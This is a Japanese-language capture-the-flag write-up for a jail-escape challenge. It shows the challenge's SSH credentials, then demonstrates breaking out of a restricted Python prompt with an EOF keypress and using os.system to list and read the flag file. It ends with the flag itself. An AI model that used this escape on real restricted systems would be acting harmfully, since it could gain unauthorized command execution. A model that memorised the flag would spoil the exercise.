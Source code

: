 # Prisoner:Warmups:50pts
Have you ever broken out of jail? Maybe it is easier than you think!  

**Connect with:**  
```
# Password is "userpass"
ssh -p 32174 user@challenge.nahamcon.com
```

# Solution
sshでの接続先のみが渡されるため指定された通り接続する。  
```bash
$ ssh -p 32174 user@challenge.nahamcon.com
user@challenge.nahamcon.com's password:

  _________________________
     ||   ||     ||   ||
     ||   ||, , ,||   ||
     ||  (||/|/(\||/  ||
     ||  ||| _'_`|||  ||
     ||   || o o ||   ||
     ||  (||  - `||)  ||
     ||   ||  =  ||   ||
     ||   ||\___/||   ||
     ||___||) , (||___||
    /||---||-\_/-||---||\
   / ||--_||_____||_--|| \
  (_(||)-| SP1337 |-(||)_)
          --------

Hello prisoner, welcome to jail.
Don't get any ideas, there is no easy way out!
: ls
: pwd
:
```
jailが組まれており、何のコマンドも実行できない。  
`exit`で終了もできず、Ctrl+Cでの強制終了もできない。  
ここで、ひとまず入力を終わらせたいため、EOFをCtrl+Dで入力してみる。  
```bash
: ls
: pwd
: Traceback (most recent call last):
  File "/home/user/jail.py", line 27, in <module>
    input(": ")
EOFError
>>>
```
pythonのエラーが発生したようだ。  
これでpythonが実行できるようになったため、osコマンドを実行する。  
```bash
>>> import os
>>> os.system("ls")
flag.txt  jail.py
0
>>> os.system("cat flag.txt")
flag{c31e05a24493a202fad0d1a827103642}
0
```
flagが得られた。  

## flag{c31e05a24493a202fad0d1a827103642}